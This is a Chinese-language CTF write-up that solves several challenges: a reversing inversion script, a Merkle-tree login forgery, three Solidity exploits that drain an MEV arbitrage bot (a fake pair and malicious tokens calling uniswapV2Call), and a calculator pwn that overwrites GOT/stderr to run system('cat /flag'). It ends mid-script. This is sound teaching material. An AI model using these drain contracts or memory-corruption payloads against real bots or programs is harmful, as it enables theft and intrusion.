

这根本不是标准的调用约定，那么 IDA 无法正常识别也情有可原。

IDA 当然也有办法支持这样的调用约定，可以把每个参数的寄存器都写出来，格式如下：

```c
__int64 __usercall func@<r10>(char *a1@<r10>, __int64 a2@<r14>, char **a3@<rbx>)
```

经过一番手动设置，IDA 便能正常反编译程序逻辑了：



而据此写一个还原脚本，即可通过本题：

```python
s = b'\x7f\xe2\xdaJ\x8e\xdc\xb2\xdb\xe3\xc3r\xef\xd1\x94\xc4S\xaf\xab\x01\xaf\xd2-^\x98\xaa\xa1c\x02\x87\\\xca\xf2'

s2 = []
for x in s:
    for i in range(4):
        x = x * pow(33 ^ (i * 2), -1, 256) % 256
    s2.append(x)
s = bytes(s2)

s2 = b''
for i in range(16):
    t = int.from_bytes(s[i * 2:i * 2 + 2], 'little')
    s2 += (t ^ 52716).to_bytes(2, 'little')
s = s2

s2 = b''
for i in range(8):
    t = int.from_bytes(s[i * 4:i * 4 + 4], 'little')
    for j in range(4):
        t = t * pow(3735928559 ^ (j * 4), -1, 2**32) % 2**32
    s2 += t.to_bytes(4, 'little')
s = s2

s2 = b''
for i in range(4):
    t = int.from_bytes(s[i * 8:i * 8 + 8], 'little')
    s2 += (t ^ 0x7A026655FD263677).to_bytes(8, 'little')
s = s2

s2 = b''
for i in range(2):
    t = int.from_bytes(s[i * 16:i * 16 + 16], 'little')
    for j in range(4):
        t = t * pow(1437204735 ^ (j * 16), -1, 2**128) % 2**128
    s2 += t.to_bytes(16, 'little')
s = s2

print(s)
```

# O(1) 用户登录系统

阅读源码，可以发现这个程序有两个功能：

1. 导入用户名密码的列表，然后计算 merkle tree。
2. 给出一对用户名和密码，以及对应的 merkle tree 上的链，尝试登录。登录时会比较这条链算出的 root hash 与前面算的是否相同。

目标是使用 `admin` 用户登录，但是在导入用户时，却不能有 `admin` 这个用户。那么需要想办法造出一个来。

考虑登录时每次 hash 都算了什么，下面是一种可能的情况：

```python
hash_0 = sha1(user + ':' + password)
hash_1 = sha1(hash_0 + some_other_hash_0)
hash_2 = sha1(some_other_hash_1 + hash_1)
hash_3 = sha1(some_other_hash_2 + hash_2)
assert hash_3 == root_hash
```

可以发现，喂给 sha1 的 payload，有两种可能，一种是 `user:password`，另一种是两个 hash 值连起来。

假如，两个 hash 值连起来时，刚好可以作为一个 `user:password` 的数据来解析，那么这条 hash 链就能让这位用户也成功登录。

回到题目，有两种可能的做法：

1. 让上面 `hash_0` 的 payload 为 admin，想办法使得 `hash_1` 的 payload 为可登录的用户。
2. 让 `hash_1` 的 payload 为可登录的 admin。

sha1 基本只能暴力枚举，于是做法 2 需要的枚举量显然远大于做法 1。

做法 1 中，我们需要找到一个 `hash_0 + some_other_hash_0`，使其能被解析为 `user:password` 的格式，然后将他导入到用户列表中。随后在链上加入一个 `some_other_hash_0`，即可登录。可以发现，`some_other_hash_0` 甚至不需要是个 hash，可以随便填 20 字节进去。

于是我决定钦定它为 `b'\0' * 20`，然后找满足要求的 `hash_0`。

```python
from hashlib import sha1

a = 'admin:'.encode()
i = 0
while True:
    s = a + str(i).encode()
    x = sha1(s).digest()
    try:
        v = x.decode('ascii')
        if ':' in v:
            print(i, s, x, v)
    except:
        pass
    i += 1
```

最后是交互脚本：

```python
from hashlib import sha1
from pwn import *

context.log_level = 'debug'

c = b'admin:30310698'
a = sha1(c).digest()
print(b'\n' in a)
print(b'\r' in a)
print(b':' in a)
print(a == a.strip())
b = b'\0' * 20
print(b == b.strip())
print(b < a)

r = remote('202.38.93.111', 10094)
# r = process(['python', 'o1login.py'])
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'Choice: ', b'1')
r.sendlineafter(b'> ', b + a)
r.sendlineafter(b'> ', b'x:x')
r.sendlineafter(b'> ', b'EOF')
r.recvuntil(b'Login credentials:\n')
cred = r.recvline().strip()
print(b + a)
cred = cred.replace(b + a + b':', c + b':' + b.hex().encode())
print(cred)
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Login credential: ', cred)
r.interactive()
```

# 链上猎手

阅读源码，可以发现题目大致如下：

- 会部署一种 token，两个 Uniswap V2 factory，以及该 token 和 WETH 的 pair。
- 有一个 MEV Bot，三道题会有不同的版本。
- MEV Bot 在每次出块后，会遍历 Uniswap 中所有 pair。假如两个 Uniswap 中都存在 WETH 到某 token 的 pair，则试图从这两个 pair 中套利。
- MEV Bot 在初始时会进行一次套利测试。
- 目标是清空 MEV Bot 的余额。
- 三道题目初始环境都是固定的，于是所有合约的地址都相同。

## The Maximal Extractable Value

阅读 `bot1.sol`，发现该函数没有限制发送者：

```solidity
function uniswapV2Call(address sender, uint, uint, bytes calldata data) external {
    require(IUniswapV2Pair(msg.sender).factory() == FACTORY1 || IUniswapV2Pair(msg.sender).factory() == FACTORY2);
    require(sender == address(this));
    (IUniswapV2Pair pair1, IUniswapV2Pair pair2, uint amount1, uint amount2, bool dir) = abi.decode(data, (IUniswapV2Pair, IUniswapV2Pair, uint, uint, bool));
    require(WETH.transfer(address(pair1), amount1));
    pair1.swap(dir ? amount2 : 0, dir ? 0 : amount2, address(pair2), '');
}
```

第二个 require 需要的东西在参数里面，可以直接绕过。

对于第一个 require，可以构造一个假的 Uniswap pair，使得 `factory()` 总是返回 `FACTORY1`。用它来调用该函数，就能让 Bot 往任意地方转账了。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Pair {
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function factory() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}

contract FakePair {
    function factory() external pure returns (address) {
        return 0x164e31a6Ac83D5EDaE2139Add30099485D15d138;
    }
    function solve(Bot bot) external {
        uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
        bot.uniswapV2Call(address(bot), 0, 0, abi.encode(address(this), address(0), balance, uint(0), true));
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() {
        FakePair f = new FakePair();
        f.solve(Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780));
    }
}
```

拿到合约后，可以用下面的代码签名：

```python
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)
print(acc.address)

tx = {
    'from': acc.address,
    'nonce': 1,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_1.txt').read(),
    'chainId': 2023,
}
signed = w3.eth.account.sign_transaction(tx, pk)
print(signed.rawTransaction.hex())
```

## The Dark Forest

本题和上一题相比，所有函数都加上了对 `msg.sender` 或 `msg.origin` 的限制。于是不再能直接调用 MEV Bot。

Bot 的 Python 代码中，会先对套利交易进行模拟，如果模拟通过再发送：

```python
bot.functions.simulate(pair1_address, pair2_address, amount1, amount2, amount3, direction).call(
    {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
)
tx = bot.functions.arbitrage(pair1_address, pair2_address, amount1, amount2, amount3, direction).build_transaction(
    {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
)
```

而模拟与实际执行的区别，主要在于，模拟时会检查 WETH 余额必须增加。

我们暂且先不管这次模拟，先想想，如果直接调用 `arbitrage`，如何让 Bot 吐出余额。

考虑整个调用链：

```plain
bot.arbitrage(...)
	pair2.swap(...)
		WETH.transfer(bot, ...)
		bot.uniswapV2Call(...)
			WETH.transfer(pair1, ...)
			pair1.swap(...)
				some_token.transfer(pair2, ...)
```

图中大部分合约都不在我们的控制之下，但是有一个合约，最后的这个 token，是我们可能可以控制的。

假如构造一个 token，使得它会调用 `bot.uniswapV2Call`，进而转走余额，那么就能通过本题了。

最后，还需要想办法让这个逻辑在模拟时不会触发。经过测试，我发现模拟的时候，block number 还是上一个块的，可以利用这个特性来判断当前环境。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Factory {
    event PairCreated(address indexed token0, address indexed token1, address pair, uint);

    function feeTo() external view returns (address);
    function feeToSetter() external view returns (address);

    function getPair(address tokenA, address tokenB) external view returns (address pair);
    function allPairs(uint) external view returns (address pair);
    function allPairsLength() external view returns (uint);

    function createPair(address tokenA, address tokenB) external returns (address pair);

    function setFeeTo(address) external;
    function setFeeToSetter(address) external;
}

interface IUniswapV2Pair {
    event Approval(address indexed owner, address indexed spender, uint value);
    event Transfer(address indexed from, address indexed to, uint value);

    function name() external pure returns (string memory);
    function symbol() external pure returns (string memory);
    function decimals() external pure returns (uint8);
    function totalSupply() external view returns (uint);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint);

    function approve(address spender, uint value) external returns (bool);
    function transfer(address to, uint value) external returns (bool);
    function transferFrom(address from, address to, uint value) external returns (bool);

    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external pure returns (bytes32);
    function nonces(address owner) external view returns (uint);

    function permit(address owner, address spender, uint value, uint deadline, uint8 v, bytes32 r, bytes32 s) external;

    event Mint(address indexed sender, uint amount0, uint amount1);
    event Burn(address indexed sender, uint amount0, uint amount1, address indexed to);
    event Swap(
        address indexed sender,
        uint amount0In,
        uint amount1In,
        uint amount0Out,
        uint amount1Out,
        address indexed to
    );
    event Sync(uint112 reserve0, uint112 reserve1);

    function MINIMUM_LIQUIDITY() external pure returns (uint);
    function factory() external view returns (address);
    function token0() external view returns (address);
    function token1() external view returns (address);
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
    function price0CumulativeLast() external view returns (uint);
    function price1CumulativeLast() external view returns (uint);
    function kLast() external view returns (uint);

    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function skim(address to) external;
    function sync() external;

    function initialize(address, address) external;
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}

contract EvilToken {
    string constant public name = "Token";
    string constant public symbol = "T";
    uint8 constant public decimals = 18;
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor() {
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);

        //if (gasleft() < 2000000) {
        if (block.number >= 8) {
            Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
            uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
            bot.uniswapV2Call(address(bot), 0, 0, abi.encode(address(this), address(0), balance, uint(0), true));
        }
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() payable {
        EvilToken e = new EvilToken();
        IUniswapV2Factory fac1 = IUniswapV2Factory(0x164e31a6Ac83D5EDaE2139Add30099485D15d138);
        IUniswapV2Factory fac2 = IUniswapV2Factory(0xff2624eb527e4acAb0afE10270B7F6f58483D319);
        IUniswapV2Pair pair1 = IUniswapV2Pair(fac1.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));
        IUniswapV2Pair pair2 = IUniswapV2Pair(fac2.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));

        uint b = address(this).balance;
        IWETH(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).deposit{value: b}();
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair1), b / 2);
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair2), b - b / 2);
        e.transfer(address(pair1), 1 ether);
        e.transfer(address(pair2), 10 ether);
        pair1.mint(address(this));
        pair2.mint(address(this));
    }
}
```

```python
from pwn import *
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)

tx = {
    'from': acc.address,
    'nonce': 0,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_2.txt').read(),
    'chainId': 2023,
    'value': 10**17,
}
signed = w3.eth.account.sign_transaction(tx, pk)

context.log_level = 'debug'

r = remote('202.38.93.111', 10222)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'The challenge you want to play (1 or 2 or 3): ', b'2')
r.sendlineafter(b'Choice: ', b'1')
r.sendlineafter(b'Address: ', acc.address.encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed.rawTransaction.hex().encode())
r.interactive()
```

## Death's End

本题和上一题相比，`arbitrage` 函数完全加上了对余额的检查，而 `uniswapV2Call` 函数可以发出任意调用了。

为了清空余额，除了直接转账，也可以先 approve，然后再由他人转走。这样就能绕过检查。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Factory {
    event PairCreated(address indexed token0, address indexed token1, address pair, uint);

    function feeTo() external view returns (address);
    function feeToSetter() external view returns (address);

    function getPair(address tokenA, address tokenB) external view returns (address pair);
    function allPairs(uint) external view returns (address pair);
    function allPairsLength() external view returns (uint);

    function createPair(address tokenA, address tokenB) external returns (address pair);

    function setFeeTo(address) external;
    function setFeeToSetter(address) external;
}

interface IUniswapV2Pair {
    event Approval(address indexed owner, address indexed spender, uint value);
    event Transfer(address indexed from, address indexed to, uint value);

    function name() external pure returns (string memory);
    function symbol() external pure returns (string memory);
    function decimals() external pure returns (uint8);
    function totalSupply() external view returns (uint);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint);

    function approve(address spender, uint value) external returns (bool);
    function transfer(address to, uint value) external returns (bool);
    function transferFrom(address from, address to, uint value) external returns (bool);

    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external pure returns (bytes32);
    function nonces(address owner) external view returns (uint);

    function permit(address owner, address spender, uint value, uint deadline, uint8 v, bytes32 r, bytes32 s) external;

    event Mint(address indexed sender, uint amount0, uint amount1);
    event Burn(address indexed sender, uint amount0, uint amount1, address indexed to);
    event Swap(
        address indexed sender,
        uint amount0In,
        uint amount1In,
        uint amount0Out,
        uint amount1Out,
        address indexed to
    );
    event Sync(uint112 reserve0, uint112 reserve1);

    function MINIMUM_LIQUIDITY() external pure returns (uint);
    function factory() external view returns (address);
    function token0() external view returns (address);
    function token1() external view returns (address);
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
    function price0CumulativeLast() external view returns (uint);
    function price1CumulativeLast() external view returns (uint);
    function kLast() external view returns (uint);

    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function skim(address to) external;
    function sync() external;

    function initialize(address, address) external;
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom(address, address, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}

contract EvilToken {
    string constant public name = "Token";
    string constant public symbol = "T";
    uint8 constant public decimals = 18;
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    address solver;

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor(address solver_) {
        solver = solver_;
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);

        //if (gasleft() < 2000000) {
        if (block.number >= 8) {
            Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
            uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
            address[] memory addressList = new address[](1);
            bytes[] memory calldataList = new bytes[](1);
            addressList[0] = 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7;
            calldataList[0] = abi.encodePacked(uint32(0x095ea7b3), uint256(uint160(solver)), uint256(114514 ether));
            bot.uniswapV2Call(address(bot), 0, 0, abi.encode(addressList, calldataList));
        }
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() payable {
        EvilToken e = new EvilToken(address(this));
        IUniswapV2Factory fac1 = IUniswapV2Factory(0x164e31a6Ac83D5EDaE2139Add30099485D15d138);
        IUniswapV2Factory fac2 = IUniswapV2Factory(0xff2624eb527e4acAb0afE10270B7F6f58483D319);
        IUniswapV2Pair pair1 = IUniswapV2Pair(fac1.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));
        IUniswapV2Pair pair2 = IUniswapV2Pair(fac2.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));

        uint b = address(this).balance;
        IWETH(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).deposit{value: b}();
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair1), b / 2);
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair2), b - b / 2);
        e.transfer(address(pair1), 1 ether);
        e.transfer(address(pair2), 10 ether);
        pair1.mint(address(this));
        pair2.mint(address(this));
    }
    fallback() external payable {
        Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
        uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transferFrom(address(bot), address(this), balance);
    }
}
```

```python
from pwn import *
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)

tx = {
    'from': acc.address,
    'nonce': 0,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_3.txt').read(),
    'chainId': 2023,
    'value': 10**17,
}
signed = w3.eth.account.sign_transaction(tx, pk)

tx2 = {
    'from': acc.address,
    'nonce': 1,
    'gas': 1000000,
    'gasPrice': 10**10,
    'data': '0x',
    'chainId': 2023,
    'value': 0,
    'to': '0x95431Ac61B186Be99cb96003E2272DA074EF3bE7',
}
signed2 = w3.eth.account.sign_transaction(tx2, pk)

context.log_level = 'debug'

r = remote('202.38.93.111', 10222)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'The challenge you want to play (1 or 2 or 3): ', b'3')
r.sendlineafter(b'Choice: ', b'1')
r.sendlineafter(b'Address: ', acc.address.encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed.rawTransaction.hex().encode())
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Raw transaction: ', signed2.rawTransaction.hex().encode())
r.interactive()
```

# It's MyCalculator!!!!!

看起来是个 pwn 题。

我一开始想着，对展开的代码进行分析，但是发现太长了，根本没法看，于是只好回去看原来的代码。

代码中定义了一个 `result_buffer` 数组，每次运算后会把结果放进去。还提供了 `GET` 和 `PUT` 来直接读写里面的数据。

读写时判断了 `if ($2 >= MAX_RESULT_BUFFER)`，但是却没有判断小于 0 的情况，这导致可以越界读写。

可以发现 `result_buffer` 存在 bss 里。



而往上一点就是 got 表：


于是我们可以通过修改 got 表里面的地址，来劫持执行流。

我一开始试图直接修改某个地址到 one_gadget，但是发现不太工作。

然后我注意到，`yyerror` 函数中，会调用 `fprintf(stderr, ...)`, 而 `stderr` 刚好在我们能修改的区间内，于是可以把它改成一个我们可控的位置，随后调用 `system("cat /flag")`。

对于可控的位置，我直接选择了 `result_buffer` 内部。然后我们需要知道 libc 和程序的基址，以便算出 `system` 和 `result_buffer` 的地址。

这两者都能在 got 表中找到，使用过的函数会指向 libc，未使用过的则指向程序本身。

```python
import os, base64, subprocess

fprintf = 0x51D00
system = 0x4C3A0
v = system - fprintf

payload = '\n'.join([
    '1/0',
    'PUT X ((GET X) + Y)'.replace('X', str((-44) % 2**32)).replace('Y', str(v % 2 ** 32)),
    'PUT Z ((GET X) + Y)'.replace('X', str((-24) % 2**32)).replace('Y', str((0x6100 + 137 * 4 - 0x1176) % 2**32)).replace('Z', str((-8) % 2**32)),
    'PUT Z ((GET X) + Y)'.replace('X', str((-23) % 2**32)).replace('Y', '0').replace('Z', str((-7) % 2**32)),
    'PUT 137 ' + str(int.from_bytes(b'cat ', 'little')),
    'PUT 138 ' + str(int.from_bytes(b'/fla', 'little')),
    'PUT 139 ' + str(int.from_bytes(b'g\0', 'little')),
    '1/0',
]) + '\n'
print(payload)
open('ans.txt', 'w').write(base64.b64encode(payload.encode()).decode() + '\nEOF\n')
```

# 小 Z 的谜题

[Z3](https://github.com/Z3Prover/z3) solved everything.

```python
import itertools
from z3 import *

solver = Solver()

bound = 5
constraints = ((1, 1, 3), (1, 2, 2), (1, 2, 4), (1, 4, 4), (2, 2, 2), (2, 2, 3))
count = [3, 4, 2, 2, 2, 3]
num_constraints = sum(count)
num_dims = len(constraints[0])
arrange = [[[0 for i in range(3)] for j in range(num_dims)] for k in range(num_constraints)]

s = []
for i in range(num_constraints):
    for j in range(num_dims):
        for k in range(3):
            if k == 2:
                arrange[i][j][k] = -1
            else:
                number = Int('x_%d_%d_%d' % (i, j, k))
                s.append(number)
                solver.add(0 <= number)
                solver.add(number <= bound)
                arrange[i][j][k] = number

for i in range(num_constraints):
    for j in range(num_constraints):
        if i == j:
            continue
        t = []
        for k in range(num_dims):
            t.append(arrange[i][k][1] <= arrange[j][k][0])
            t.append(arrange[j][k][1] <= arrange[i][k][0])
        solver.add(Or(*t))

for i in range(num_constraints):
    for t in range(len(constraints)):
        if count[t]:
            g = []
            for p in set(itertools.permutations(constraints[t])):
                o = []
                for j in range(num_dims):
                    o.append(arrange[i][j][1] - arrange[i][j][0] == p[j])
                g.append(And(*o))
            solver.add(Or(*g))
            count[t] -= 1
            break

tot = 1
for i in range(bound + 1):
    for j in range(bound + 1):
        for k in range(bound + 1):
            t = []
            for u in range(num_constraints):
                for x in range(2):
                    for y in range(2):
                        for z in range(2):
